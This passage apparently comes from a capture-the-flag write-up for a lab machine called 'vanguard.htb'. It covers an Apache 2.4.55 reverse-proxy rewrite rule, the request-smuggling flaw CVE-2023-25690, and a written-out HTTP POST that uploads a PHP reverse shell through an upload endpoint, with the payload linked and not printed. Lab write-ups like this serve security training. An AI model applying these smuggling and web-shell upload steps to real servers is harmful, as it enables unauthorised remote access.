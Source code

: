 We also find a rewrite condition at the publicly accessible `/leaders/<id>` on the `frontend` rewrites to `/leader.php?id=<id>`  on the `backend` at `localhost:8080` as shown in the configuration below:
```text
In file: /etc/httpd/conf/httpd.conf
	 556: <VirtualHost *:80>
	 561:   RewriteEngine on
	 562:   RewriteRule "^/leaders/(.*)" "http://127.0.0.1:8080/leader.php?id=$1" [P]
	 565:   RewriteCond %{HTTP_HOST} !^vanguard.htb$
	 566:   RewriteRule ^(.*)$ http://vanguard.htb$1 [R=permanent,L]
	    : </VirtualHost>
```

`http://vanguard.htb/leaders/1` => 200, more information on Draven Blackthorn
![[images/vanguard_4.png]]
`http://vanguard.htb/leader.php?id=1` => 404

## CVE-2023-25690 Apache 2.4.55 HTTP Request Smuggling attack
Looking for vulnerabilities to the actual server version of 2.4.55, we identify CVE-2023-25690 and a Proof of Concept article detailing the identification/exploitation: [https://github.com/dhmosfunk/CVE-2023-25690-POC](https://github.com/dhmosfunk/CVE-2023-25690-POC)
Some mod_proxy configurations on Apache HTTP Server versions 2.4.0 through 2.4.55 allow a HTTP Request Smuggling attack. Configurations are affected when mod_proxy is enabled along with some form of RewriteRule or ProxyPassMatch in which a non-specific pattern matches some portion of the user-supplied request-target (URL) data and is then re-inserted into the proxied request-target using variable substitution. For example, something like: 
```text 
RewriteEngine on 
RewriteRule "^/here/(.*)" "http://example.com:8080/elsewhere?$1"; [P] 
ProxyPassReverse /here/ http://example.com:8080/
```
Request splitting/smuggling could result in bypass of access controls in the proxy server, proxying unintended URLs to existing origin servers, and cache poisoning. Users are recommended to update to at least version 2.4.56 of Apache HTTP Server. 

Upload a reverse shell PHP payload called `rev.php` at the `/upload` endpoint such as https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php (replace `PHP PAYLOAD` below with payload), beware it won't allow you to overwrite files.
```text
POST /upload.php HTTP/1.1
Host: vanguard.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------28507332511926759895603037535
Content-Length: 1278
Origin: http://vanguard.htb
Connection: close
Referer: http://vanguard.htb/upload.php
Upgrade-Insecure-Requests: 1

-----------------------------28507332511926759895603037535
Content-Disposition: form-data; name="file"; filename="rev.php"
Content-Type: application/x-php

<PHP PAYLOAD>
-----------------------------28507332511926759895603037535--

```
